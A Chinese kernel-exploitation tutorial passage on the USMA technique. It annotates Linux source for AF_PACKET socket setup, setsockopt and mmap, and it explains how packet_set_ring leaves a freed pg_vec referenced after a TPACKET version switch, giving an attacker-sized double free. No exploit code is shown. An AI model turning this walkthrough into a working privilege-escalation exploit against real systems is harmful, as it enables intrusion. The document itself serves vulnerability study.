





# kernel从小白到大神(六)-USMA-先知社区

> **来源**: https://xz.aliyun.com/news/16093  
> **文章ID**: 16093

---

## USMA

前言：本章专门对`USMA`手法分析，在`0b1rt`师傅看来，源码是了解漏洞以及利用手法产生原理最有效的方法之一，所以源码分析的内容会偏多一点。

附件下载：<https://pan.quark.cn/s/07a06dd024da>

## socket系统调用

先了解一下`socket`系统调用的创建的一个过程。`socket`用于创建网络套接字，这个套接字可以发送和接收数据。具体使用如下

```
int socket(int family, int type, int protocol);
/*
family: 协议族。
AF_INET：IPv4地址族。AF_INET6：IPv6地址族，AF_UNIX：用于本地通信的Unix域套接字（IPC），AF_PACKET：用于直接访问链路层的原始数据包。
type ：套接字类型
SOCK_STREAM：字节流(TCP)
SOCK_DGRAM：无连接的数据报(UDP)
SOCK_RAW：原始套接字，可以直接访问底层协议(ip)
protocol：协议
*/
socket(AF_INET, SOCK_STREAM, 0);//创建一个TCP套接字

```

`socket()`调用使用`sock_create()`创建套接字，并使用`sock_map_fd()`返回相应的文件描述符。

```
int __sys_socket(int family, int type, int protocol)
{
    int retval;
    struct socket *sock;
    int flags;

//...

    //调用sock_create创建套接字，多传入一个socket结构体
    retval = sock_create(family, type, protocol, &sock);
    if (retval < 0)
        return retval;
    //将创建的套接字映射到一个文件描述符上
    return sock_map_fd(sock, flags & (O_CLOEXEC | O_NONBLOCK));
}

```

`sock_create()`创建套接字,会调用`sock_create()->__sock_create()`，首先通过`sock_alloc()`分配socket结构体，然后通过传入的`family`获取协议模块，在通过协议模块的`ops(pf->create)`，来初始化`socket`。

```
int sock_create(int family, int type, int protocol, struct socket **res)
{
    return __sock_create(current->nsproxy->net_ns, family, type, protocol, res, 0);
}

int __sock_create(struct net *net, int family, int type, int protocol,
             struct socket **res, int kern)
{
    int err;
    struct socket *sock;
    const struct net_proto_family *pf;
//...
    /*
     *  Allocate the socket and allow the family to set things up. if
     *  the protocol is 0, the family is instructed to select an appropriate
     *  default.
     */
    sock = sock_alloc();//分配socket结构体
    if (!sock) {
        net_warn_ratelimited("socket: no more sockets\n");
        return -ENFILE; /* Not exactly a match, but its the
                   closest posix thing */
    }

    sock->type = type;

//...

    rcu_read_lock();
    pf = rcu_dereference(net_families[family]);//根据传入的family获取协议模块
    err = -EAFNOSUPPORT;
    if (!pf)
        goto out_release;

    /*
     * We will call the ->create function, that possibly is in a loadable
     * module, so we have to bump that loadable module refcnt first.
     */
    if (!try_module_get(pf->owner))//增加协议模块的引用计数，防止被卸载
        goto out_release;

    /* Now protected by module ref count */
    rcu_read_unlock();
    //初始化套接字
    err = pf->create(net, sock, protocol, kern);
    if (err < 0)
        goto out_module_put;

//...
    *res = sock;

    return 0;
//...
}

```

在根据传入的`family`获取协议模块的时候，通过交叉索引找到`sock_register()`为相应`net_families[]`的注册函数

```
//注册新的网络协议族
int sock_register(const struct net_proto_family *ops)
{
    int err;

    if (ops->family >= NPROTO) {
        pr_crit("protocol %d >= NPROTO(%d)\n", ops->family, NPROTO);
        return -ENOBUFS;
    }

    spin_lock(&net_family_lock);
    //检查是否已经注册
    if (rcu_dereference_protected(net_families[ops->family],
                      lockdep_is_held(&net_family_lock)))
        err = -EEXIST;
    else {
        //如果未注册，则将新的协议操作ops，赋值给net_families对应family位置
        rcu_assign_pointer(net_families[ops->family], ops);
        err = 0;
    }
    spin_unlock(&net_family_lock);

    pr_info("NET: Registered protocol family %d\n", ops->family);
    return err;
}

```

在`net/packet/af_packet.c`中找到注册函数的调用，这里`family`为`PF_PACKET`，同时`create`为`packet_create()`，继续分析`create`函数

```
static const struct net_proto_family packet_family_ops = {
    .family =   PF_PACKET,
    .create =   packet_create,
    .owner  =   THIS_MODULE,
};
static int __init packet_init(void)
{
    int rc;
//...
    rc = sock_register(&packet_family_ops);//注册网络协议族
    if (rc)
        goto out_proto;


    return 0;

//...
}

```

`packet_create()`会先对套接字的`type`做检查，然后使用`sk_alloc`分配独立的`object`，函数指针(`ops`)的赋值需要注意，之后就是数据包和一些锁、钩子等操作。

```
static int packet_create(struct net *net, struct socket *sock, int protocol,
             int kern)
{
    struct sock *sk;
    struct packet_sock *po;
    __be16 proto = (__force __be16)protocol; /* weird, but documented */
    int err;

    if (!ns_capable(net->user_ns, CAP_NET_RAW))
        return -EPERM;
    if (sock->type != SOCK_DGRAM && sock->type != SOCK_RAW &&
        sock->type != SOCK_PACKET)
        return -ESOCKTNOSUPPORT;

    sock->state = SS_UNCONNECTED;//套接字初始为未连接状态SS_UNCONNECTED

    err = -ENOBUFS;
    //sk分配为独立kmem_cache
    sk = sk_alloc(net, PF_PACKET, GFP_KERNEL, &packet_proto, kern);
    if (sk == NULL)
        goto out;
    //套接字ops赋值,函数调用的关键点
    sock->ops = &packet_ops;
    if (sock->type == SOCK_PACKET)//数据套接字包使用特定的包ops
        sock->ops = &packet_ops_spkt;

    sock_init_data(sock, sk);//sk赋值给socket

    po = pkt_sk(sk);//获取packet_sock
    init_completion(&po->skb_completion);//初始化skb_completion，用于数据包接收的同步
    sk->sk_family = PF_PACKET;
    po->num = proto;
    po->xmit = dev_queue_xmit;
//...
}
static const struct proto_ops packet_ops = {
    .family =   PF_PACKET,
    .owner =    THIS_MODULE,
    .release =  packet_release,
    .bind =     packet_bind,
    .connect =  sock_no_connect,
    .socketpair =   sock_no_socketpair,
    .accept =   sock_no_accept,
    .getname =  packet_getname,
    .poll =     packet_poll,
    .ioctl =    packet_ioctl,
    .gettstamp =    sock_gettstamp,
    .listen =   sock_no_listen,
    .shutdown = sock_no_shutdown,
    .setsockopt =   packet_setsockopt,
    .getsockopt =   packet_getsockopt,
    .sendmsg =  packet_sendmsg,
    .recvmsg =  packet_recvmsg,
    .mmap =     packet_mmap,
    .sendpage = sock_no_sendpage,
};

```

基本了解了socket创建和初始化的过程之后，我们进一步了解漏洞的产生原因。

## 漏洞的产生原因

### setsockopt

允许开发者灵活配置套接字的行为,以满足应用程序的更多特定需求。具体调用参数如下：

```
int setsockopt(int sockfd, int level, int optname, const void *optval, socklen_t optlen);
/*
sockfd:套接字描述符
level：指定选项所在的协议层
optname：要设置的选项名称，不同层次有不同的选项
optval:缓冲区指针
optlen:缓冲区大小
*/
sockfd = socket(AF_INET, SOCK_STREAM, 0);//创建一个套接字之后，进行设置行为
setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &opt, sizeof(opt))//设置为套接字层SOL_SOCKET，允许地址复用

```

`__sys_setsockopt()`会先根据文件描述符找到关联的`socket`，然后进行`BPF`程序处理后，会有两种方式来进行`sock_setsockopt`

* `SOL_SOCKET`套接字层，进行调用`sock_setsockopt()`
* 其他层，调用`sock->ops->setsockopt`的指针函数

我们需要的是调用`sock->ops->setsockopt`，所以需要设置`level`不是`SOL_SOCKET`

```
int __sys_setsockopt(int fd, int level, int optname, char __user *user_optval,
        int optlen)
{
    sockptr_t optval = USER_SOCKPTR(user_optval);//用户空间选项值的指针转换
    char *kernel_optval = NULL;
    int err, fput_needed;
    struct socket *sock;

    if (optlen < 0)
        return -EINVAL;

    sock = sockfd_lookup_light(fd, &err, &fput_needed);//找到文件描述符关联的socket
    if (!sock)
        return err;

//...
    //BPF程序处理
//...

    //这里使用漏洞的时候需要level==SOL_PACKET
    //对套接字层操作，是SOL_SOCKET并且没有自定义过 SOL_SOCKET
    if (level == SOL_SOCKET && !sock_use_custom_sol_socket(sock))
        err = sock_setsockopt(sock, level, optname, optval, optlen);
    else if (unlikely(!sock->ops->setsockopt))
        err = -EOPNOTSUPP;
    else
        err = sock->ops->setsockopt(sock, level, optname, optval,
                        optlen);//其他层使用ops->setsockopt
//...
    return err;
}

```

`sock->ops==packet_ops`调用`packet_setsockopt()`，通过该`optname`提供了一个菜单的选项，主要关注环形缓冲区处理的时候，会先根据版本来确定长度后复制数据到一环上，然后进而设置环形缓冲区。

```
static int
packet_setsockopt(struct socket *sock, int level, int optname, sockptr_t optval,
          unsigned int optlen)
{
    struct sock *sk = sock->sk;//获取底层sock结构
    struct packet_sock *po = pkt_sk(sk);//转化为packet_sock
    int ret;
    //如果不是SOL_PACKET就返回错误，因为ops使用的是packet
    if (level != SOL_PACKET)
        return -ENOPROTOOPT;
    //optname菜单
    switch (optname) {
    //处理环形缓冲区的设置
    case PACKET_RX_RING://RX接收
    case PACKET_TX_RING://TX发送
    {
        union tpacket_req_u req_u;
        int len;

        lock_sock(sk);
        //根据版本设置请求长度
        switch (po->tp_version) {
        case TPACKET_V1:
        case TPACKET_V2:
            len = sizeof(req_u.req);
            break;
        case TPACKET_V3:
        default:
            len = sizeof(req_u.req3);
            break;
        }
        if (optlen < len) {
            ret = -EINVAL;
        } else {
            if (copy_from_sockptr(&req_u.req, optval, len))//复制数据到req_u.req
                ret = -EFAULT;
            else
                ret = packet_set_ring(sk, &req_u, 0,
                            optname == PACKET_TX_RING);//设置环形缓冲区，关键代码
        }
        release_sock(sk);
        return ret;
    }
    //...
}

```

> `packet socket`模块，可以让用户在设备驱动层接受和发送raw packets，并且为了加速数据报文的拷贝，它允许用户创建一块与内核态共享的环形缓冲区。具体的创建操作是在packet\_set\_ring()函数中实现的。

进行跟进`packet_set_ring()`,首先会各种各样的初始化操作，主要点在`TPACKET_V3`版本的时候，调用`init_prb_bdqc()`初始化的时候， `packet_ring_buffer.prb_bdqc.pkbdq`持有一个`pg_vec`引用，并且后期释放`pg_vec`并没有清除引用，导致可以`double free`。

```
static int packet_set_ring(struct sock *sk, union tpacket_req_u *req_u,
        int closing, int tx_ring)
{
    struct pgv *pg_vec = NULL;//指向页面向量的指针
    struct packet_sock *po = pkt_sk(sk);
    unsigned long *rx_owner_map = NULL;//接收缓冲区所有者的映射
    int was_running, order = 0;
    struct packet_ring_buffer *rb;//环形缓冲区指针
    struct sk_buff_head *rb_queue;
    __be16 num;
    int err;
    /* Added to avoid minimal code churn */
    struct tpacket_req *req = &req_u->req;//请求结构体指针
    //根据接收或者发送选择对应结构体
    rb = tx_ring ? &po->tx_ring : &po->rx_ring;
    rb_queue = tx_ring ? &sk->sk_write_queue : &sk->sk_receive_queue;

    err = -EBUSY;//忙状态
    if (!closing) {
        //是否已经映射
        if (atomic_read(&po->mapped))
            goto out;
        //是否有正在读取的请求
        if (packet_read_pending(rb))
            goto out;
    }
    //tp_block_nr -> 请求的块(是一个或多个内存页的大小,由 tp_block_size 指定)数量
    if (req->tp_block_nr) {
        unsigned int min_frame_size;

        /* Sanity tests and some calculations */
        err = -EBUSY;
        //缓冲区页面已经存在，goto out
        if (unlikely(rb->pg_vec))
            goto out;
        //根据版本来选择头长度
        switch (po->tp_version) {
        case TPACKET_V1:
            po->tp_hdrlen = TPACKET_HDRLEN;
            break;
        case TPACKET_V2:
            po->tp_hdrlen = TPACKET2_HDRLEN;
            break;
        case TPACKET_V3:
            po->tp_hdrlen = TPACKET3_HDRLEN;
            break;
        }
        //  tp_block_size -> 块大小
        err = -EINVAL;
        // tp_block_size块大小要大于0
        if (unlikely((int)req->tp_block_size <= 0))
            goto out;
        //块大小是否对齐
        if (unlikely(!PAGE_ALIGNED(req->tp_block_size)))
            goto out;
        /*  tp_hdrlen  -> 数据包头长度    
            tp_reserve -> 帧保留的额外空间
            min_frame_size 最小帧size=头长度+保留空间大小
        */
        min_frame_size = po->tp_hdrlen + po->tp_reserve;
        //版本大于等于V3 的时候 块size要有空闲
        if (po->tp_version >= TPACKET_V3 &&
            req->tp_block_size <
            BLK_PLUS_PRIV((u64)req_u->req3.tp_sizeof_priv) + min_frame_size)
            goto out;
        // 请求帧大小 要大于 最小帧size
        if (unlikely(req->tp_frame_size < min_frame_size))
            goto out;
        // 请求帧size 的对齐 0x10对齐
        if (unlikely(req->tp_frame_size & (TPACKET_ALIGNMENT - 1)))
            goto out;
        //frames_per_block -> 每个块的帧数（块中能容纳的帧数量）
        rb->frames_per_block = req->tp_block_size / req->tp_frame_size;
        //块中能容纳的帧数不能为零
        if (unlikely(rb->frames_per_block == 0))
            goto out;
        //块的帧数*请求块数量 > 0xffffffff   既请求的帧数不能超过UINT_MAX
        if (unlikely(rb->frames_per_block > UINT_MAX / req->tp_block_nr))
            goto out;
        //块容纳的帧数 * 请求块数量 != 请求帧数 (既 请求帧数==帧数量)
        if (unlikely((rb->frames_per_block * req->tp_block_nr) !=
                    req->tp_frame_nr))
            goto out;

        err = -ENOMEM;
        //order=log2(req->tp_block_size)
        order = get_order(req->tp_block_size);
        //分配页面向量(page数组)
        pg_vec = alloc_pg_vec(req, order);
        if (unlikely(!pg_vec))
            goto out;
        //根据版本号来初始化->环形缓冲区
        switch (po->tp_version) {
        case TPACKET_V3:
            /* V3 不支持块传输 */
            if (!tx_ring) {
                //是接收环的时候，
                /* 漏洞处 , packet_ring_buffer.prb_bdqc.pkbdq持有一个pg_vec引用 */
                init_prb_bdqc(po, rb, pg_vec, req_u);
                /*
                static void init_prb_bdqc(struct packet_sock *po,
                            struct packet_ring_buffer *rb,
                            struct pgv *pg_vec,
                            union tpacket_req_u *req_u)
                {
                    struct tpacket_kbdq_core *p1 = GET_PBDQC_FROM_RB(rb);
                    struct tpacket_block_desc *pbd;

                    memset(p1, 0x0, sizeof(*p1));

                    p1->knxt_seq_num = 1;
                    p1->pkbdq = pg_vec;//这里packet_ring_buffer.prb_bdqc.pkbdq持有一个pg_vec引用
                    //...
                }
                */
            } else {
                //发送环时
                struct tpacket_req3 *req3 = &req_u->req3;

                if (req3->tp_retire_blk_tov ||
                    req3->tp_sizeof_priv ||
                    req3->tp_feature_req_word) {
                    err = -EINVAL;
                    goto out_free_pg_vec;
                }
            }
            break;
        default:
            if (!tx_ring) {
                //接收环时，rx_owner_map接收缓冲区所有者的映射
                rx_owner_map = bitmap_alloc(req->tp_frame_nr,
                    GFP_KERNEL | __GFP_NOWARN | __GFP_ZERO);
                if (!rx_owner_map)
                    goto out_free_pg_vec;
            }
            break;
        }
    }
    /* Done */
    else {
        err = -EINVAL;
        if (unlikely(req->tp_frame_nr))
            goto out;
    }


    /* 从网络中分离套接字 是否正在运行，如果是则注销 */
    spin_lock(&po->bind_lock);
    was_running = po->running;
    num = po->num;
    if (was_running) {
        po->num = 0;
        __unregister_prot_hook(sk, false);
    }
    spin_unlock(&po->bind_lock);

    synchronize_net();
    //缓冲区设置完成后，更新结构和状态
    err = -EBUSY;
    mutex_lock(&po->pg_vec_lock);
    //如果closing==1 
    if (closing || atomic_read(&po->mapped) == 0) {
        err = 0;
        spin_lock_bh(&rb_queue->lock);
        swap(rb->pg_vec, pg_vec);//取出原先的pg_vec ，然后释放
        if (po->tp_version <= TPACKET_V2)//版本小于等于V2
            swap(rb->rx_owner_map, rx_owner_map);//取出原先的接收的，然后释放
    //...
    }
//...
/*
释放的时候，没有对packet_ring_buffer.prb_bdqc.pkbdq进行清空，导致仍然保留着被释放的pg_vec的引用
*/
out_free_pg_vec:
    bitmap_free(rx_owner_map);
    if (pg_vec)
        free_pg_vec(pg_vec, order, req->tp_block_nr);
out:
    return err;
}

```

先进行释放`pg_vec`的操作，但是`packet_ring_buffer.prb_bdqc.pkbdq`仍然持有被释放`pg_vec`，然后将`packet socket`的版本切换为`TPACKET_V2`并且再次设置缓冲区的时候，原本保存在`pkbdq`的`pg_vec`会被当做`rx_owner_map`再次释放，造成`double free`，因为在`rx_owner_map`和`prb_bdqc`为一个联合体，这里的`rx_owner_map`偏移为0，而`pkbdq`的偏移也是为0。

```
struct packet_ring_buffer {
    struct pgv *               pg_vec;               /*     0     8 */
    unsigned int               head;                 /*     8     4 */
    unsigned int               frames_per_block;     /*    12     4 */
    unsigned int               frame_size;           /*    16     4 */
    unsigned int               frame_max;            /*    20     4 */
    unsigned int               pg_vec_order;         /*    24     4 */
    unsigned int               pg_vec_pages;         /*    28     4 */
    unsigned int               pg_vec_len;           /*    32     4 */

    /* XXX 4 bytes hole, try to pack */

    unsigned int *             pending_refcnt;       /*    40     8 */
    union {
        long unsigned int * rx_owner_map;        /*    48     8 */
        struct tpacket_kbdq_core prb_bdqc;       /*    48   152 */
    };                                             

};
struct tpacket_kbdq_core {
    struct pgv *               pkbdq;                /*     0     8 */
    unsigned int               feature_req_word;     /*     8     4 */
    unsigned int               hdrlen;               /*    12     4 */
//...
};

```

并且在`alloc_pg_vec()`中发现申请的`pg_vec`大小为我们可控(`block_nr`),因此我们可以申请得到几乎任意大小的堆块。

```
static struct pgv *alloc_pg_vec(struct tpacket_req *req, int order)
{
    unsigned int block_nr = req->tp_block_nr;
    struct pgv *pg_vec;
    int i;
    //根据请求块大小申请
    pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);
    if (unlikely(!pg_vec))
        goto out;
    //为每个 pg_vec[i] 分配一个页面
    for (i = 0; i < block_nr; i++) {
        pg_vec[i].buffer = alloc_one_pg_vec_page(order);
        if (unlikely(!pg_vec[i].buffer))
            goto out_free_pgvec;
    }

out:
    return pg_vec;
//...
}

```

了解漏洞的产生原因，进一步了解如何利用`pg_vec`

## 利用漏洞过程

### mmap

推荐一篇`mmap`原理超级详细的文章：[从内核世界透视 mmap 内存映射的本质（源码实现篇） - bin的技术小屋 - 博客园](https://www.cnblogs.com/binlovetech/p/17754173.html)。

`mmap`调用链`sys_mmap()->ksys_mmap_pgoff()`。

`ksys_mmap_pgoff()`主要是针对大页映射的一个预处理，之后调用`vm_mmap_pgoff()`

```
unsigned long ksys_mmap_pgoff(unsigned long addr, unsigned long len,
                  unsigned long prot, unsigned long flags,
                  unsigned long fd, unsigned long pgoff)
{
    struct file *file = NULL;
    unsigned long retval;
    //预处理文件映射
    if (!(flags & MAP_ANONYMOUS)) {
        audit_mmap_fd(fd, flags);
        file = fget(fd);//从fd拿出file
        if (!file)
            return -EBADF;
        //映射文件是否是 hugetlbfs 中的文件（巨大页）
        if (is_file_hugepages(file)) {
            len = ALIGN(len, huge_page_size(hstate_file(file)));
            //长度对齐
        //mmap映射巨大文件的时候不需要MAP_HUGETLB，普通文件不能使用大页映射
        } else if (unlikely(flags & MAP_HUGETLB)) {
            retval = -EINVAL;
            goto out_fput;
        }
    //巨大页映射
    } else if (flags & MAP_HUGETLB) {
        struct user_struct *user = NULL;
        struct hstate *hs;
        //大页尺寸
        hs = hstate_sizelog((flags >> MAP_HUGE_SHIFT) & MAP_HUGE_MASK);
        if (!hs)
            return -EINVAL;

        len = ALIGN(len, huge_page_size(hs));
        /*
         * VM_NORESERVE is used because the reservations will be
         * taken when vm_ops->mmap() is called
         * A dummy user value is used because we are not locking
         * memory so no accounting is necessary
         */
        file = hugetlb_file_setup(HUGETLB_ANON_FILE, len,
                VM_NORESERVE,
                &user, HUGETLB_ANONHUGE_INODE,
                (flags >> MAP_HUGE_SHIFT) & MAP_HUGE_MASK);
        if (IS_ERR(file))
            return PTR_ERR(file);
    }

    flags &= ~(MAP_EXECUTABLE | MAP_DENYWRITE);
    //调用进行映射
    retval = vm_mmap_pgoff(file, addr, len, prot, flags, pgoff);
out_fput:
    if (file)
        fput(file);
    return retval;
}

```

`vm_mmap_pgoff()`,会对虚拟内存空间先上写锁，然后调用`do_mmap()`进一步完成映射。

```
unsigned long vm_mmap_pgoff(struct file *file, unsigned long addr,
    unsigned long len, unsigned long prot,
    unsigned long flag, unsigned long pgoff)
{
    unsigned long ret;
    struct mm_struct *mm = current->mm;//获取内存虚拟内存空间
    unsigned long populate;
    //populate 取决于MAP_POPULATE 或者 MAP_LOCKED，会在映射后立即分配物理页面
    //populate表示要分配的物理内存大小
    LIST_HEAD(uf);

    ret = security_mmap_file(file, prot, flag);
    if (!ret) {
        //上写锁
        if (mmap_write_lock_killable(mm))
            return -EINTR;
        //开始mmap映射，在进程虚拟空间先分配一段vma，建立映射关系，然后返回映射地址
        ret = do_mmap(file, addr, len, prot, flag, pgoff, &populate,
                  &uf);
        mmap_write_unlock(mm);
        userfaultfd_unmap_complete(mm, &uf);
        //提前分配物理内存页面，后期访问该地址就不会缺页
        //否则需要后期切到内核态来处理缺页时再分配物理页面
        if (populate)
            mm_populate(ret, populate);
    }
    return ret;
}

```

在`do_mmap()`映射的时候主要选择查看文件匿名映射的一个过程。首先就是各种检查然后对映射方式进行选择之后调用核心函数`mmap_region()`进行映射。

```
unsigned long do_mmap(struct file *file, unsigned long addr,
            unsigned long len, unsigned long prot,
            unsigned long flags, unsigned long pgoff,
            unsigned long *populate, struct list_head *uf)
{
    struct mm_struct *mm = current->mm;//获取进程虚拟内存空间
    vm_flags_t vm_flags;
    int pkey = 0;

    *populate = 0;

//...

    /* 虚拟内存中vma是有限的，检查是否超过限制 */
    if (mm->map_count > sysctl_max_map_count)
        return -ENOMEM;

    /* Obtain the address to map to. we verify (or select) it and ensure
     * that it represents a valid section of the address space.
     */
    //先在进程虚拟内存空间中找到一个未映射的内存范围
    addr = get_unmapped_area(file, addr, len, pgoff, flags);
    if (IS_ERR_VALUE(addr))
        return addr;
//...

    /* Do simple checking here so the lower-level routines won't have
     * to. we assume access permissions have been handled by the open
     * of the memory object, so we don't do any here.
     */
    //通过calc_()把prot和flag转换为vma中的vm_flags标志符
    vm_flags = calc_vm_prot_bits(prot, pkey) | calc_vm_flag_bits(flags) |
            mm->def_flags | VM_MAYREAD | VM_MAYWRITE | VM_MAYEXEC;
    //是否锁定
    if (flags & MAP_LOCKED)
        //检查是否能被锁定
        if (!can_do_mlock())
            return -EPERM;
    //检查锁定的内存页是否超过限制
    if (mlock_future_check(mm, vm_flags, len))
        return -EAGAIN;
    //文件映射
    if (file) {
        struct inode *inode = file_inode(file);//获取元数据
        //...
        switch (flags & MAP_TYPE) {
        //...
            //匿名映射
        case MAP_PRIVATE:
            if (!(file->f_mode & FMODE_READ))
                return -EACCES;
            if (path_noexec(&file->f_path)) {
                if (vm_flags & VM_EXEC)
                    return -EPERM;
                vm_flags &= ~VM_MAYEXEC;
            }
            //使用文件的自调用ops，后面会用到
            if (!file->f_op->mmap)
                return -ENODEV;
            if (vm_flags & (VM_GROWSDOWN|VM_GROWSUP))
                return -EINVAL;
            break;

        default:
            return -EINVAL;
        }
    } 
   //...

    /*  当内存比较紧张的时候，普通申请大概率会失败，
        通过MAP_NORESERVE即使没有足够的 swap 空间也能申请映射到虚拟内存空间，
        但是后续分配物理页面的时候可能会报内存不足(oom)
    */
    if (flags & MAP_NORESERVE) {
        /* We honor MAP_NORESERVE if allowed to overcommit */
        if (sysctl_overcommit_memory != OVERCOMMIT_NEVER)
            vm_flags |= VM_NORESERVE;

        /* 大页内存映射的时候，默认自带VM_NORESERVE，因为大页会被提前预留出来 */
        if (file && is_file_hugepages(file))
            vm_flags |= VM_NORESERVE;
    }
    //mmap核心映射
    addr = mmap_region(file, addr, len, vm_flags, pgoff, uf);
    if (!IS_ERR_VALUE(addr) &&
        ((vm_flags & VM_LOCKED) ||
         (flags & (MAP_POPULATE | MAP_NONBLOCK)) == MAP_POPULATE))
        *populate = len;
    return addr;

}

```

`mmap_region()`函数时，还是主要关心文件映射。映射的时候如果flags有`MAP_FIXED`，那就会强制映射该地址，但是可能会有映射重叠。就会先做一个是否能于其他`vma`合并的一个操作，如果可以合并就返回，不能合并就重新申请`object`来存储`vma`结构体，`vma`初始化之后，进入文件映射，会先将文件与虚拟内存管理，之后调用`file`自带的`ops`进行映射，最后将`vma`插入到管理的红黑树中，并对`vma`和文件做反向关联。

```
unsigned long mmap_region(struct file *file, unsigned long addr,
        unsigned long len, vm_flags_t vm_flags, unsigned long pgoff,
        struct list_head *uf)
{
    struct mm_struct *mm = current->mm;
    struct vm_area_struct *vma, *prev, *merge;
    int error;
    struct rb_node **rb_link, *rb_parent;
    unsigned long charged = 0;

    /* 检查映射是否超过 虚拟内存空间 的限制*/
    if (!may_expand_vm(mm, vm_flags, len >> PAGE_SHIFT)) {
        unsigned long nr_pages;

        /*
         * MAP_FIXED may remove pages of mappings that intersects with
         * requested mapping. Account for the pages it would unmap.
         */
        /*  如果为MAP_FIXED，addr为强制映射地址，可能会有映射重叠
            需要统计[addr,addr+len]重叠的虚拟内存页数-> nr_pages
        */
        nr_pages = count_vma_pages_range(mm, addr, addr + len);
        //nr_pages是重叠的映射部分
        //(len >> PAGE_SHIFT) - nr_pages == 需要申请映射的部分 是否超过限制
        if (!may_expand_vm(mm, vm_flags,
                    (len >> PAGE_SHIFT) - nr_pages))
            return -ENOMEM;
    }

    /* Clear old maps, set up prev, rb_link, rb_parent, and uf */
    //清除旧的映射，后面因为重叠会重新映射这部分
    if (munmap_vma_range(mm, addr, len, &prev, &rb_link, &rb_parent, uf))
        return -ENOMEM;
    /*
     * Private writable mapping: check memory availability
     */

//...

    /*
     * 先判断是否能和已有的vma合并
     */
    vma = vma_merge(mm, prev, addr, addr + len, vm_flags,
            NULL, file, pgoff, NULL, NULL_VM_UFFD_CTX);
    //可以合并就返回
    if (vma)
        goto out;

    /*
     * Determine the object being mapped and call the appropriate
     * specific mapper. the address has already been validated, but
     * not unmapped, but the maps are removed from the list.
     */
    //不能合并，就会从新申请object来给新的vma
    vma = vm_area_alloc(mm);
    if (!vma) {
        error = -ENOMEM;
        goto unacct_error;
    }

    vma->vm_start = addr;
    vma->vm_end = addr + len;
    vma->vm_flags = vm_flags;
    vma->vm_page_prot = vm_get_page_prot(vm_flags);
    vma->vm_pgoff = pgoff;
    //文件映射
    if (file) {
        //...

        /* ->mmap() can change vma->vm_file, but must guarantee that
         * vma_link() below can deny write-access if VM_DENYWRITE is set
         * and map writably if VM_SHARED is set. This usually means the
         * new file must not have been exposed to user-space, yet.
         */
        vma->vm_file = get_file(file);//文件与虚拟内存关联
        error = call_mmap(file, vma);//调用文件自带ops
        if (error)
            goto unmap_and_free_vma;

        //...

        addr = vma->vm_start;
        //...
        vm_flags = vma->vm_flags;
    }

//...
    //将vma 插入到管理的红黑树中
    vma_link(mm, vma, prev, rb_link, rb_parent);

//...
    file = vma->vm_file;
//...

    return addr;
//...
}

```

